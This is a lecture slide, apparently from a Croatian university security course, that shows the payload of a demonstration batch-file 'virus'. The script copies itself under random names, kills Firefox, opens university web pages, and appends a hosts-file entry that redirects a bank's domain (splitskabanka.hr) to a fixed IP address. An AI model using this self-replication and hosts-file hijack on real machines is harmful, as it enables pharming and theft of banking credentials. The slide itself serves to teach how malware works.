

# Demo Malware: Anatomy > Payload
VirusTEST.bat (nije pravi virus– samostalni (selfcontained))

:: Print nothing
@echo off
:: Here again we can put a code responsible for propagation
:: and infection of other files and registry keys
:: (e.g., copy to files, xcopy to "\\remote_computers\...)
:: Virus payload
cd %userprofile%\desktop
copy %0 SRP%random%.bat
copy %0 SRP%random%.bat
tskill firefox
start firefox "http://www.fesb.hr/~mcagalj/SRP_11" -width 800
:: Wait for 1 second
ping 123.45.67.89 -n 1 -w 1000 > nul
start firefox "http://www.fesb.hr" -width 800
start firefox "http://www.unist.hr" -width 800
start firefox "http://www.fer.hr" -width 800

echo 195.29.221.166  www.splitskabanka.hr >> %systemroot%\system32\drivers\etc\hosts
25